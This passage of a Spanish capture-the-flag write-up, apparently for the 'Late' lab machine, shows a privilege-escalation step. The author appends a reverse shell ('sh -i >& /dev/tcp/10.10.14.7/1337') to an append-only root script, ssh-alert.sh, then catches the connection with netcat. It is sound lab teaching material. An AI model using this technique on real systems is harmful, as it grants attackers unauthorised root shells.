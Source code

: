 

Este script lo que hace es dar una alerta cada vez que alguien establece una conexión via SSH, pero realmente no importa el contenido de este script. Esto sin duda da una posibilidad para inyectar una shell reversa, sin embargo, no tenemos permiso para editar este archivo.



Vamos a utilizar el comando [**lsattr**](https://www.reiser.cl/linux-comandos-lsattr-y-chattr-leer-y-establecer-atributos-especiales-append-only/) que permite listar los atributos asignados a los ficheros de un sistema Linux.


![1](/assets/img/sample/Late/20.png)


Aunque no podamos escribir normalmente dentro del archivo, si estamos permitidos para adjuntar archivos a este. Esto quiere decir que podemos crear otro archivo con nuestra shell reversa y adjuntarlo a ssh-alert.sh.


A continuación les voy a compartir una línea de comando la cual puede hacer esta tarea solo con ejecutarla, lo único que hay que modificar en el comando es la IP de la shell reversa.

```terminal
touch archivo.txt && echo "sh -i >& /dev/tcp/10.10.14.7/1337 0>&1" >> archivo.txt | cat /home/svc_acc/archivo.txt >> /usr/local/sbin/ssh-alert.sh
```

![1](/assets/img/sample/Late/21.png)

Lo que hace este comando es crear un archivo llamado "archivo.txt", para luego hacer un echo de la shell reversa a este mismo archivo y por último ejecuta un cat al archivo y envía el contenido de este a ssh-alert.sh, que se agregaría al final del script mencionado anteriormente.


Ponemos nuestro netcat a la escucha en el puerto 1337: 

![1](/assets/img/sample/Late/22.png) 

Y listo, ya somos root ;) 



